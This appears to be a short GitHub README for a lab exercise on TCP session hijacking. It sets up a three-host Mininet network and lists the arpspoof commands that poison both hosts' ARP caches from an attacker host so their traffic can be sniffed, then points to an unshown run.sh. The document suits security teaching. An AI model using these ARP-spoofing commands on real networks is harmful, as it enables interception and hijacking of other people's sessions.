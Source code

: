 # TCP-Session-Hijacking
Before performing actual attack, we need to setup virtual network. We used mininet for this purpose.
We create a virtual network with 3 hosts. Mininet command for this:

>sudo mn -x --topo=single,3

Now, to perform session hijacking attacker needs to sniff the ongoing packets between host 1 and host 2.
To do this, we will send arp-spoofed packet from host 3. Command for this one is :
>arpspoof -i h3-eth0 -t 10.0.0.1 -r 10.0.0.2 > /dev/null 2>&1 &

>arpspoof -i h3-eth0 -t 10.0.0.2 -r 10.0.0.1 > /dev/null 2>&1 &


Now run the run.sh
